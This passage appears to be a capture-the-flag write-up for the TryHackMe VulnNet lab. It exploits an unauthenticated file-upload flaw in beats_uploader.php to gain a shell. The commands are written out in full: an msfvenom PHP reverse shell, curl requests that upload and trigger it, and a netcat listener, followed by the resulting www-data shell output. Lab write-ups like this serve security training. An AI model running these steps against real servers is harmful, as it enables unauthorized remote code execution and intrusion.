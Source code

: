 **44250.txt Arbitrary File Upload:**

```
Unauthenticated Arbitrary File Upload
Below is the cURL request to upload arbitrary files to the webserver with no
authentication required.

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"
[...]
```

To do so, first, I'll generate a php reverse shell via `msfvenom`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# msfvenom -p php/reverse_php LHOST=tun0 LPORT=443 -o revshell.php
```

Then, upload the file with `curl`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# curl -u developers:[Redacted] -F "file=@revshell.php" -F "plupload=1" -F "name=revshell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
creating file{"success":"yes","file_name":"165752453575eede","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
```

Setup a `netcat` listener on port 443:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# nc -lnvp 443
listening on [any] 443 ...
```

Trigger the reverse shell via `curl`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# curl -u developers:[Redacted] -F "file=@revshell.php" -F "plupload=1" -F "name=revshell.php" "http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/165752453575eede.php"
```

**Initial Shell:**

```
connect to [Redacted] from (UNKNOWN) [10.10.53.129] 50120
whoami; id; hostname; ip a

www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
vulnnet
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:10:3c:9b:38:99 brd ff:ff:ff:ff:ff:ff
    inet 10.10.53.129/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3154sec preferred_lft 3154sec
    inet6 fe80::10:3cff:fe9b:3899/64 scope link 
       valid_lft forever preferred_lft forever
```
